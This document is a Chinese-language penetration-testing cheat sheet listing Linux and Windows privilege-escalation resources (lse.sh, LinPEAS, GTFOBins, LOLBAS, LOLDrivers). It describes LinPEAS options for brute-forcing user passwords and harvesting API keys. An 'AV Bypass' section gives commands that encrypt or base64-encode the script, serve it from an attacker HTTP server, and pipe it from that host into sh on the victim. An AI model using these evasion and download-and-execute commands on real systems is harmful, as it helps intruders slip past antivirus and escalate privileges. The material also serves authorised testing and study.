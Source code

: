 ...............................
# lse.sh
Link: (https://github.com/diego-treitos/linux-smart-enumeration)(Another Version of LinENUM)
Usage: 直接上传执行
For: Linux权限提升建议脚本
Parameters: 
```
首先，您应该像 `./lse.sh` 一样执行它。如果你看到一些绿色的 `yes!` ，你可能已经有一些好东西可以使用了。

如果没有，您应该尝试使用 `./lse.sh -l1` 的 `level 1` 详细程度，您将看到更多有趣的信息。
 
如果这没有帮助， `level 2` 将转储您可以使用 `./lse.sh -l2` 收集的有关服务的所有内容。在这种情况下，您可能会发现使用 `./lse.sh -l2 | less -r` 很有用。
 
还可以通过传递 `-s` 参数来选择要执行的测试。有了它，您可以选择要执行的特定测试或部分。例如， `./lse.sh -l2 -s usr010,net,pro` 将执行测试 `usr010` 以及 `net` 和 `pro` 部分中的所有测试。
```
...............................
# LinPEAS
Link:https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
For: Linux权限提升建议脚本
Usage: 直接上传执行，没有依赖项。
Parameters: 
``` 
    -a（除正则表达式外的所有检查） - 这也将在 1 分钟内执行进程检查，将在文件中搜索更多可能的哈希值，并使用带有 top2000 密码的 `su` 暴力破解每个用户。 
    -e （extra enumeration） - 这将执行默认情况下避免的枚举检查  
    -r （regex checks） - 这将在文件系统中搜索数百个不同平台的 API 密钥
    -s （superfast & stealth） - 这将绕过一些耗时的检查 - 隐身模式（不会将任何内容写入磁盘）
    -P （Password） - 传递将用于 `sudo -l` 和暴力破解其他用户的密码
    -D （Debug） - 打印有关未发现任何内容的检查以及每次检查所花费时间的信息 
    -d/-p/-i/-t （本地网络枚举） - Linpeas 还可以发现和端口扫描本地网络
```
AV Bypass:
```
#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

...............................
# GTFOBins
Link: https://gtfobins.github.io/
For: Unix 二进制文件的精选列表，可用于绕过配置错误的系统中的本地安全限制
...............................
# LOLBAS
Link: https://lolbas-project.github.io/
For: Windows二进制文件的精选列表，可用于绕过配置错误的系统中的本地安全限制
...............................
# LOLDrivers
Link: https://www.loldrivers.io/
For: 攻击者用来绕过安全控制和执行攻击的精选 Windows 驱动程序列表

...............................
